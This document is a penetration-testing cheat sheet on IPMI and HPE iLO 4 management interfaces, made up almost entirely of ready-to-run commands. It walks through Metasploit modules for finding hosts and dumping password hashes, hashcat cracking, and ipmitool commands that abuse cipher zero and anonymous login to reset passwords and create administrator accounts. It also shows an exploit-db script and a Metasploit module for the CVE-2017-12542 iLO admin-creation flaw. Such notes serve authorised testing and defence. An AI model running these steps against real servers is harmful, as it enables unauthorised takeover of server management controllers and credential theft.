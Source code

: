 ```yaml
---
description: Intelligent Platform Management Interface
---
```


# IPMI

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
* [https://habr.com/ru/company/selectel/blog/439834/](https://habr.com/ru/company/selectel/blog/439834/)




## Discovery

```
msf > use auxiliary/scanner/ipmi/ipmi_version
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```




## Dump Hashes

**CVE-2013-4786**

Dump hashes:

```
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf > set OUTPUT_HASHCAT_FILE ipmi_hashes.txt
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

Recover plaintext passwords:

```
$ hashcat -m 7300 -O -a 0 -w 3 --session=ipmi -o ipmi.out ipmi.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule --username
```




## Cipher Zero

**CVE-2013-4805**

Discover with MSF:

```
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

Guess existing admin username. If `ADMIN` username is correct, the `list` command will succeed (password doesn't matter):

```
$ sudo apt install ipmitool
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user list
```

Add new admin user (only existing admin username is needed):

```
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set name <ID> snovvcrash
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set password <ID> 'Passw0rd!'
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user priv <ID> 4
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user enable <ID>
```




## Anonymous Authentication

Can be discovered with MSF `ipmi_dumphashes` but also with ipmitool:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user list
```

Change password of a named user account:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user set password <ID> 'Passw0rd!'
```




## HPE iLO 4

* [https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/](https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/)
* [https://github.com/airbus-seclab/ilo4_toolbox](https://github.com/airbus-seclab/ilo4_toolbox)



### Add Admin User

**CVE-2017-12542**

Exploit with Python:

* [https://www.exploit-db.com/exploits/44005](https://www.exploit-db.com/exploits/44005)

```
$ ./44005.py -t -e -u snovvcrash -p 'Passw0rd!' 127.0.0.1
```

Exploit with MSF:

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf > set RHOSTS 10.10.13.37
msf > set USERNAME snovvcrash
msf > run
```
